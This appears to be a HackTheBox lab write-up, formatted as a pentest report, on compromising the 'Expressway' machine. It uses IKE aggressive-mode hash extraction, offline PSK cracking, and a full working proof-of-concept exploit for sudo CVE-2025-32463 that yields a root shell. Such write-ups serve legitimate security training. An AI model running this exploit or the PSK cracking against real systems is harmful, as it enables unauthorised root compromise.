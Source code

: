 ```yaml
---
title: PENETRATION TESTING REPORT - EXPRESSWAY MACHINE
description: This write-up for the retired machine Expressway was completed while the machine was still active on the HackTheBox platform. Publication was held until after its official retirement to comply with platform guidelines.
author: ZoldyckSec
date: 2025-09-28 00:00:00 +0800
categories: [HackTheBox, Expressway]
tags: [CTF, UDP, IKE, Easy, PSK,]
render_with_liquid: false
image:
  path: /assets/img/Expressway/Card-Express.png
---
```


## Description:

- `Date` Sep 27, 2025
- `Machine` Expressway (Linux)
- `Difficulty` Easy
- `Prepared by` Allan Espinoza(Aka.ZoldyckSec)

## EXECUTIVE SUMMARY

A security assessment was conducted against the Expressway machine, identifying critical vulnerabilities in the IPSec VPN service implementation. Complete system compromise was achieved through exploitation of an IKE/ISAKMP service configured in aggressive mode, followed by privilege escalation leveraging a sudo vulnerability (CVE-2025-32463).

#### Key Findings

- `Critical` Service in agressive mode allowing PSK brute-forcing
- `High` Weak Pre-Shared Key susceptible to dictionary attacks
- `Critical`  Multiple scripts with sudo permissions allowing privilege escalation

## 1. INTRODUCTION

#### 1.1 Scope and Objectives
The assessment focused on the Expressway machine with the objective of identifying attack vectors through non-conventional services and vulnerable IPSec VPN configurations.

#### 1.2 Methodology
A testing methodology centered on UDP enumeration and IPSec service exploitation was employed.

- Exhaustive UDP service enumeration
- IKE/ISAKMP service analysis on UDP port 500
- Offline Pre-Shared Key (PSK) brute-forcing
- Exploitation of vulnerable sudo configuration on multiple scripts

## 2. TECHNICAL METHODOLOGY

#### 2.1 Reconnaissance Phase
- `Tools` nmap, ike-scan
- `Techniques` Exhaustive UDP scanning, IKE service fingerprinting

#### 2.2 Vulnerability Analysis Phase
- `Tools` ike-scan, psk-crack, custom wordlists
- `Techniques` Aggressive mode detection, IKE hash extraction

#### 2.3 Exploitation Phase
- `Techniques` Offline PSK brute-forcing, sudo privilege abuse through multiple scripts

## 3. DETAILED FINDINGS

#### 3.1 Critical Finding 001: IKE/ISAKMP Service in Aggressive Mode

The IKE/ISAKMP service on UDP port 500 is configured in aggressive mode, allowing hash extraction for offline brute-force attacks.

#### Evidence

```bash
ike-scan -A 10.10.11.87 -P
````

```markdown
IKE PSK parameters (g_xr:g_xi:cky_r:cky_i:sai_b:idir_b:ni_b:nr_b:hash_r):
954d1bf7f7949d6216d26034fdededd2dfa91a603a4f2dba9e0a85e1fdce764ba7a868fc85a258472e6c91c905d21b180ca24a93886f0141712fe45862f2d8f54134741c0d2834355421f1d6b845fc58dbee643c0f6c6830a1f095b61c1fcc78e4db59e552db8e763d60f4fe624e24b35f770db5d5120af859985727395e1392:53bec0cd48ec92f2fe60df3751c080f8b6b92b45336312cd6d3c133bf2a5e93d10a30e9c444bd22249e8411d0ce7c3b6d22dbdbb2b0778fd68728aad84adb6dc2ab591fa105ccdcfd512637b76b9a052e0ed24565ce7bc3ba2c368a8b499a2ef4fd8212940256a1bce47db3a621bf582c592eaeb7a37ba519c6666b5a43c29d1:f77714c7d8fd7ed4:305b0ddf6f47d41c:00000001000000010000009801010004030000240101000080010005800200028003000180040002800b0001000c000400007080030000240201000080010005800200018003000180040002800b0001000c000400007080030000240301000080010001800200028003000180040002800b0001000c000400007080000000240401000080010001800200018003000180040002800b0001000c000400007080:03000000696b6540657870726573737761792e687462:679e4a6ac6afed51e8ec22d9f598937227a553ee:692fe7379ce6731b5a5659a3fd0a8ca8d50f05b88f936b5933fd7f8733df1bfd:ffe04d53c6ea615b98594efb211e3caed831a9e2
```

## 3.2 High Finding 002: Weak Pre-Shared Key

An IKE hash was extracted from the aggressive mode service and successfully cracked via dictionary attack, revealing a weak PSK.

#### Evidence

```bash
psk-crack -d /usr/share/wordlists/rockyou.txt hash
```

```markdown
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash 54d97619cb37951c5be413903e6d6d2a78be31a7
```
## 3.3 Critical Finding 003

Vulnerability CVE-2025-32463 was identified and exploited in the sudo configuration, which allowed full escalation of privileges without requiring prior enumeration of sudo permissions.

#### Evidence 

- `kh4sh3i/CVE-2025-32463`

```bash
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
````

```markdown
ike@expressway:~$ ./exploit.sh 
woot!
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
root@expressway:/# whoami
root
```

## 4. EXPLOITATION AND POST-EXPLOITATION

#### 4.1 Initial Compromise

```bash
nmap -sU --top-ports 100 -T4 -v -n --reason -oN UDP 10.10.11.87
```
- `-sU` **UDP Scan**. Sends UDP probes to ports and waits for either a response or an ICMP "port unreachable" message. UDP lacks a handshake, which is why it's typically slower and less accurate than TCP.

- `--top-ports` Scans **the top 100 most common UDP ports** according to the Nmap database (instead of 1-65535). Good for quick reconnaissance, but may miss services on non-standard ports.

- `-T4` **Timing Template**: Aggressive/Fast. Reduces timeouts and waits less for responses → faster scan but higher risk of **false negatives** and more network noise (detectable by IDS/IPS). Often reasonable for UDP, but if a firewall delays responses, prefer `-T3` or `-T4` with retries.

- `-v` **Verbosity**: More detailed console output. Shows progress and useful information. (You can use `-vv`/`-vvv` for more detail, but `-v` is usually sufficient.)

- `-n` **No DNS resolution**. Nmap will not attempt to resolve IP → hostname (faster, less DNS traffic).

- `--reason` Shows **why** Nmap classified a port (e.g., "ICMP port unreachable" → closed; "no response" → open|filtered). Very useful for interpreting UDP results.





  
